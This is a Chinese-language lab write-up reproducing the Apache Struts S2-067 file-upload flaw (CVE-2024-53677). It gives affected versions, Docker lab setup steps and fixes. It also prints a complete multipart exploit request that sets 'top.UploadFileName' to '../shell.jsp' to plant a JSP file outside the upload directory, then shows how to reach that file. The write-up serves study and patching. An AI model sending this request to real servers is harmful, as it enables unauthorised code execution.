 # Apache Struts S2-067 远程代码执行漏洞 CVE-2024-53677

## 漏洞描述

Apache Struts 是一个开源的、用于构建企业级 Java Web 应用的 MVC 框架。2024 年 12 月，官方披露 CVE-2024-53677 Apache Struts FileUploadInterceptor 文件上传漏洞。在受影响版本中，若代码中使用了 FileUploadInterceptor ，则可能在进行文件上传时攻击者可能上传文件至其他目录，在特定场景下可能造成代码执行。

## 漏洞影响

```
Struts 2.0.0 - Struts 2.3.37
Struts 2.5.0- Struts 2.5.33
Struts 6.0.0- Struts 6.3.0.2
```

参考链接：

- [Apache Struts2 文件上传逻辑绕过(CVE-2024-53677)(S2-067)](https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/)
- https://github.com/c4oocO/CVE-2024-53677-Docker
- https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker

## 环境搭建

通过项目 [CVE-2023-50164-ApacheStruts2-Docker](https://github.com/c4oocO/CVE-2024-53677-Docker) 搭建一个 Struts 6.3.0 漏洞环境：

```
git clone https://github.com/c4oocO/CVE-2024-53677-Docker.git
cd CVE-2024-53677-Docker 
docker build --ulimit nofile=122880:122880 -m 3G -t cve-2024-53677 .
docker run -p 8080:8080 --ulimit nofile=122880:122880 -m 3G --rm -it --name cve-2024-53677 cve-2024-53677
```

该项目修改自 [CVE-2023-50164-ApacheStruts2-Docker](https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker)，将 `struts-app/src/main/java/org/trackflaw/example/Upload.java` 的原始文件上传处理逻辑替换为 `FileUploadInterceptor` 。

可更新 maven 源加速构建，在 Dockerfile 同级目录创建一个自定义的 settings.xml：

```
<settings xmlns="http://maven.apache.org/SETTINGS/1.0.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.0.0
                     http://maven.apache.org/xsd/settings-1.0.0.xsd">
  <mirrors>
    <mirror>
        <id>aliyun-maven</id>
        <mirrorOf>central</mirrorOf>
        <name>Aliyun Maven</name>
        <url>https://maven.aliyun.com/repository/central</url>
    </mirror>
  </mirrors>
</settings>
```

在 Dockerfile 中新增一行，将自定义的 `settings.xml` 复制到 Maven 的配置目录中，替换默认文件：

```
COPY settings.xml /root/.m2/settings.xml
```

重新执行 `docker build` 与 `docker run` 即可。

通过 `curl` 验证服务是否启动：

```
curl http://your-ip:8080/upload.action
```

或访问 `http://your-ip:8080/upload.action` 查看上传页面。

## 漏洞复现

```
POST /upload.action HTTP/1.1
Host: your-ip:8080
Content-Length: 320
Cache-Control: max-age=0
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2NRMscRh7zNdWblD
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://your-ip:8080/upload.action
Accept-Encoding: gzip, deflate, br
Accept-Language: en
Cookie: JSESSIONID=4563A1B22B51DE02F1FD131C1E88DE5C
Connection: keep-alive

------WebKitFormBoundary2NRMscRh7zNdWblD
Content-Disposition: form-data; name="Upload"; filename="test.png"
Content-Type: image/png

<%= "awesome_poc" %>
------WebKitFormBoundary2NRMscRh7zNdWblD
Content-Disposition: form-data; name="top.UploadFileName"; 

../shell.jsp
------WebKitFormBoundary2NRMscRh7zNdWblD--
```

![](images/Apache%20Struts%20S2-067%20远程代码执行漏洞%20CVE-2024-53677/image-20250609092329755.png)

访问上传文件：

```
http://your-ip:8080/shell.jsp
```

![](images/Apache%20Struts%20S2-067%20远程代码执行漏洞%20CVE-2024-53677/image-20241218085910676.png)

## 漏洞修复

1. 升级组件 Apache Struts 升级至 6.4.0 及以上版本。
2. 自行排查代码中是否使用 FileUploadInterceptor，若无使用则不受该漏洞影响。

